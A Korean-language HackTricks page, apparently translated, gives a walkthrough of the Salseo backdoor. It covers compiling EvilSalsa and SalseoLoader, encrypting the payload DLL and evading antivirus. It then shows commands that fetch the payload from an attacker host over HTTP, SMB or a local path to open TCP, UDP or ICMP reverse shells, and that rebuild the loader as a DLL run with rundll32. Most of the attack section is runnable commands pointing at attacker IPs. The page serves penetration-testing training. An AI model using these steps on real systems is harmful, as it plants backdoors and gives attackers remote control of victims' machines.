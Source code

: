 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 바이너리 컴파일하기

github에서 소스 코드를 다운로드하고 **EvilSalsa**와 **SalseoLoader**를 컴파일합니다. 코드를 컴파일하려면 **Visual Studio**가 설치되어 있어야 합니다.

사용할 윈도우 박스의 아키텍처에 맞게 프로젝트를 컴파일합니다(Windows가 x64를 지원하면 해당 아키텍처로 컴파일합니다).

Visual Studio의 **왼쪽 "Build" 탭**에서 **"Platform Target"**을 통해 **아키텍처를 선택**할 수 있습니다.

(\*\*이 옵션을 찾을 수 없으면 **"Project Tab"**을 클릭한 다음 **"\<Project Name> Properties"**를 클릭하세요)

![](<../.gitbook/assets/image (132).png>)

그런 다음 두 프로젝트를 빌드합니다 (Build -> Build Solution) (로그 안에 실행 파일의 경로가 나타납니다):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## 백도어 준비하기

우선, **EvilSalsa.dll**을 인코딩해야 합니다. 이를 위해 **encrypterassembly.py**라는 파이썬 스크립트를 사용하거나 **EncrypterAssembly** 프로젝트를 컴파일할 수 있습니다.

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### 윈도우
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
알겠습니다. 이제 Salseo 작업을 실행하는 데 필요한 모든 것이 있습니다: **인코딩된 EvilDalsa.dll**과 **SalseoLoader의 바이너리.**

**SalseoLoader.exe 바이너리를 머신에 업로드하세요. 어떤 AV에도 탐지되지 않아야 합니다...**

## **백도어 실행**

### **TCP 리버스 셸 얻기 (HTTP를 통해 인코딩된 dll 다운로드)**

nc를 리버스 셸 리스너로 시작하고 인코딩된 evilsalsa를 제공할 HTTP 서버를 시작하는 것을 잊지 마세요.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP 리버스 셸 얻기 (SMB를 통한 인코딩된 dll 다운로드)**

nc를 리버스 셸 리스너로 시작하고, 인코딩된 evilsalsa를 제공할 SMB 서버를 시작하는 것을 잊지 마세요 (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP 리버스 셸 얻기 (피해자 내부에 이미 인코딩된 dll)**

**이번에는 리버스 셸을 수신하기 위해 클라이언트에 특별한 도구가 필요합니다. 다운로드:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP 응답 비활성화:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### 클라이언트 실행:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 피해자 내부에서 salseo 작업을 실행해 보겠습니다:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader를 DLL로 컴파일하여 메인 함수 내보내기

Visual Studio를 사용하여 SalseoLoader 프로젝트를 엽니다.

### 메인 함수 앞에 추가: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### 이 프로젝트에 DllExport 설치

#### **도구** --> **NuGet 패키지 관리자** --> **솔루션용 NuGet 패키지 관리...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport 패키지 검색(탭에서 찾아보기 사용) 후 설치(팝업 수락)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

프로젝트 폴더에 **DllExport.bat** 및 **DllExport\_Configure.bat** 파일이 나타납니다.

### **U**ninstall DllExport

**Uninstall**을 누릅니다(이상하게 들리지만 믿어주세요, 필요합니다).

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Visual Studio 종료 후 DllExport\_configure 실행**

그냥 **종료**합니다.

그런 다음 **SalseoLoader 폴더**로 가서 **DllExport\_Configure.bat**를 실행합니다.

**x64**를 선택합니다(64비트 박스 내에서 사용할 경우, 제 경우가 그랬습니다), **System.Runtime.InteropServices**를 선택합니다(**DllExport의 네임스페이스 내**) 그리고 **적용**을 누릅니다.

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Visual Studio로 프로젝트 다시 열기**

**\[DllExport]**가 더 이상 오류로 표시되지 않아야 합니다.

![](<../.gitbook/assets/image (8) (1).png>)

### 솔루션 빌드

**출력 유형 = 클래스 라이브러리**를 선택합니다(프로젝트 --> SalseoLoader 속성 --> 응용 프로그램 --> 출력 유형 = 클래스 라이브러리).

![](<../.gitbook/assets/image (10) (1).png>)

**x64** **플랫폼**을 선택합니다(프로젝트 --> SalseoLoader 속성 --> 빌드 --> 플랫폼 대상 = x64).

![](<../.gitbook/assets/image (9) (1) (1).png>)

솔루션을 **빌드**하려면: 빌드 --> 솔루션 빌드(출력 콘솔에 새 DLL의 경로가 나타납니다).

### 생성된 Dll 테스트

테스트할 위치에 Dll을 복사하여 붙여넣습니다.

실행:
```
rundll32.exe SalseoLoader.dll,main
```
오류가 나타나지 않으면, 아마도 기능하는 DLL이 있는 것입니다!!

## DLL을 사용하여 셸 얻기

**HTTP** **서버**를 사용하고 **nc** **리스너**를 설정하는 것을 잊지 마세요.

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
